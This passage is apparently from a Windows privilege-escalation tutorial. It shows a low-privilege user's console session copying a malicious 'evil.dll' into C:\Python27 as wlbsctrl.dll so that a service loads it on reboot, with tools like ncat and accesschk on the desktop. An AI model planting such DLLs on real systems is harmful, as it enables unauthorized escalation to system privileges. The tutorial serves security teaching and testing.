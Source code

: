 # Again, this is as low privilege user1.

C:\Users\user1\Desktop> dir

 Volume in drive C has no label.
 Volume Serial Number is 948D-A98F

 Directory of C:\Users\user1\Desktop

02/18/2014  01:49 PM    <DIR>          .
02/18/2014  01:49 PM    <DIR>          ..
04/22/2013  09:39 AM           331,888 accesschk.exe
02/18/2014  12:38 PM            14,336 evil.dll
01/25/2014  12:46 AM            36,864 fubar.exe
01/22/2014  08:17 AM    <DIR>          incognito2
06/30/2011  01:52 PM         1,667,584 ncat.exe
11/22/2013  07:39 PM             1,225 wmic_info.bat
               5 File(s)      2,051,897 bytes
               3 Dir(s)      73,052,160 bytes free

C:\Users\user1\Desktop> copy evil.dll C:\Python27\wlbsctrl.dll

        1 file(s) copied.
		
C:\Users\user1\Desktop> dir C:\Python27

 Volume in drive C has no label.
 Volume Serial Number is 948D-A98F

 Directory of C:\Python27

02/18/2014  01:53 PM    <DIR>          .
02/18/2014  01:53 PM    <DIR>          ..
10/20/2012  02:52 AM    <DIR>          DLLs
10/20/2012  02:52 AM    <DIR>          Doc
10/20/2012  02:52 AM    <DIR>          include
01/28/2014  03:45 AM    <DIR>          Lib
10/20/2012  02:52 AM    <DIR>          libs
04/10/2012  11:34 PM            40,092 LICENSE.txt
04/10/2012  11:18 PM           310,875 NEWS.txt
04/10/2012  11:31 PM            26,624 python.exe
04/10/2012  11:31 PM            27,136 pythonw.exe
04/10/2012  11:18 PM            54,973 README.txt
10/20/2012  02:52 AM    <DIR>          tcl
10/20/2012  02:52 AM    <DIR>          Tools
04/10/2012  11:31 PM            49,664 w9xpopen.exe
02/18/2014  12:38 PM            14,336 wlbsctrl.dll
               7 File(s)        523,700 bytes
               9 Dir(s)      73,035,776 bytes free


 

Everything is set up, all we need to do now is wait for a system reboot. For demo purposes I have included a screenshot below where I use an Administrator command prompt to manually restart the service.
